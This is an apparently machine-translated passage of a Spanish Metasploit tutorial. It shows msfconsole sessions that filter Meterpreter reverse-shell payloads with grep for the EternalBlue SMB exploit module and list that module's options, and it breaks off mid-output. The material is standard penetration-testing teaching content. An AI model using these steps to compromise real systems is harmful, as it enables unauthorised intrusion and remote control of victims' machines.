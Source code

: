 ```
   18  payload/windows/x64/meterpreter/reverse_winhttp                      normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
   19  payload/windows/x64/meterpreter/reverse_winhttps                     normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)

msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads

[*] 14

```

Esto nos da un total de`14`resultados. Ahora podemos agregar otro`grep`comandar después del primero y buscar`reverse_tcp`.

Cargas útiles

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)

msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter grep reverse_tcp show payloads

[*] 3

```

Con la ayuda de`grep`, Redujimos la lista de cargas útiles que queríamos hasta menos. Por supuesto, el`grep`El comando se puede usar para todos los demás comandos. Todo lo que necesitamos saber es lo que estamos buscando.

---

# **Selección de cargas útiles**

Igual que con el módulo, necesitamos el número de índice de la entrada que nos gustaría usar. Para establecer la carga útil del módulo seleccionado actualmente, usamos`set payload <no.>`solo después de seleccionar un módulo de exploit para empezar.

### **MSF - Seleccione la carga útil**

Cargas útiles

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Exploit target:
```